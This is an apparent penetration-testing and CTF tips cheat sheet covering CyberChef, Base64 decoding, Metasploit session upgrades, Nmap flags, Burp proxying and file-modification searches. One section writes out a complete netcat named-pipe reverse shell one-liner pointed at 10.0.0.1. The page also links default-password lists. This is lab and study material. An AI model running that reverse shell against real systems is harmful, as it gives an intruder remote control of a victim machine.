 # General tips

## General CTF data analysis \(encoding, hash identifier, etc.\)

```
https://gchq.github.io/CyberChef/
```

## Disposable email

If you are signing up for a lot of accounts you can use a disposable email. You just enter the email account you want for that second, and then you can view it. But remember, so can everyone else.  
[https://www.mailinator.com](https://www.mailinator.com)

## Base64 encode/decode

```python
import base64

encoded = base64.b64encode("String to encode")
print encoded

decoded = base64.b64decode("aGVqc2Fu")
print decoded
```

## Quick Base64 Decoder

```
echo aGVsbG8gd2hpdGUgaGF0Cg== | base64 -d
```

## Metasploit Slow Search Fix

```
db_rebuild_cache
```

## Default passwords

[http://www.defaultpassword.com/](http://www.defaultpassword.com/)

## Getting GUI on machine that does not have RDP or VNC

You can forward X over SSH.  
[http://www.vanemery.com/Linux/XoverSSH/X-over-SSH2.html](http://www.vanemery.com/Linux/XoverSSH/X-over-SSH2.html)

## Metasploit shell upgrade

In metasploit framework, if we have a shell \( you should try this also, when you are trying to interact with a shell and it dies \(happened in a VM\), we can upgrade it to meterpreter by using sessions -u

```
sessions -h
Usage: sessions [options]

Active session manipulation and interaction.

OPTIONS:

-u <opt>  Upgrade a shell to a meterpreter session on many platforms
```

## **Using a list in a metasploit module that does not allow it**

```
In the RHOSTS field enter:

file://PATHTOIPADDRESSES
```

## **Change Nmap modes while scanning**

```
v   --increase verbosity
p   --turn on packets
```

## **Nmap host enumeration**

```
-sn --determine alive hosts
```

## Issues with Exploits \(try viewing in Burp\)

```
Options->Add(proxy Listeners)->
Bind to port (i.e.local port to bind)(e.g.8500)->
Request Handling->
Redirect to host(i.e.IP of target)(e.g.8500)->
Redirect to port(i.e.Port of target)(e.g.8500)

then browser
localhost:8500
or run the exploit again
```

## Quick determination if executables exist

```
which nc
```

## Makes Sure shells don't hang \(send to background\)

```
If adding a reverse shell to web console for example, add a "&" to the end of reverse shell, to send to background
and in case any process during interaction hangs
for example:

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f &
```

## Modification of Files \(CTF specific / IR trick\)

look for other files modified after initial flag file or other indicator

```
find / -type f -newermt 2017-08-20 ! -newermt 2017-08-24 2>/dev/null
```

**Note:** 2&gt;/dev/null hides all permission denied error messages

above example the user flag was uploaded aug 22 2017

